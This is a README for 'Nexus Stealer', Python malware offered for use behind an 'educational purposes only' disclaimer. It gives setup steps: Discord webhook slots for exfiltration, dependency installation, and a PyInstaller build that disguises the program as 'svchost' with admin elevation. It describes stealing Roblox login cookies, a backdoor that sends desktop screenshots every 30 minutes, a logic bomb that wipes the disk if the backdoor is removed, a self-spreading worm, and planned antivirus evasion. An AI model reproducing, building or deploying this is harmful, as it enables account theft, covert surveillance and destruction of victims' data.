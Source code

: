 # NEXUS STEALER *V1.0.0*

**Disclaimer**: This code is provided for **educational purposes only**. I do not endorse or encourage any misuse, illegal activities, or damage caused by this code. By using this script, you agree that **you are solely responsible** for your actions. I bears no liability for any consequences arising from the use of this tool.

## Version System

The version system is easy to understand, the first number 'V**1**.0.0' is the main number to tell the "Era", for example, major updates will change the first numner. The second number 'V1.**0**.0' is a sub-version of the "Era", for example, the adds of simple updates such as a better security etc... will change the second number. Finally, the third number 'V1.0.**0**' is the patch number. Meaning that if there is a little security bug fix or any tiny fix, the last number will change.

---

## Updates
**Version :** *V1.0.0*

- Official Public Release

## Following Update
**Version :** *V1.1.0*

- Better AV Evasion

---

## Installation and customization *(≈ 5-10 Minutes)*

- **YOU ABSOLUTELY NEED PYTHON >=3.10 *(Latest version recommended)***

- Change the :
```
COOKIE_WEBHOOK_URLS = ["1", "1_backup"]
SCREENSHOT_WEBHOOK_URLS = ["2", "2_backup"]
```
By 4 **DIFFERENT** discord webhooks

- Install the dependencies :
```
pip install psutil requests pywin32 pyautogui cryptography netifaces
```
- Convert to .exe :
```
pyinstaller --onefile --noconsole --hidden-import psutil --hidden-import requests --hidden-import pywin32 --hidden-import pyautogui --hidden-import cryptography --hidden-import netifaces --hidden-import win32crypt --hidden-import win32gui --hidden-import win32con --hidden-import win32process --hidden-import win32security --hidden-import win32api --hidden-import win32file --uac-admin --name svchost NexusStealer.py
```

---

## Explanation

When executed on a machine, the script will wait for a **Roblox Related** application to be oppened. He will then search the whole computer data and browser data in search of the roblox login cookie (ROBLOSECURITY). Once found, it will send the cookie to the designed webhook, leave behind him a backdoor that will send a screenshot of the targeted user desktop **every 30 Minutes** and leave another logic bomb that will continuisly check to see if the backdoor has been deleted, if yes, it will wipe the whole user computer from top to bottom. 

***DO NOT RUN THIS SCRIPT ON YOUR OWN MACHINE, A VIRTUAL MACHINE OR ON SOMEONE ELSE MACHINE WITHOUT THEIR CONSENT.***
**Ive implemented a WORM in the script, meaning that it will spread in the network through ip, usb and emails meaning that even on a VM, it can spread through your network. Please be cautious of the uses of this script.**
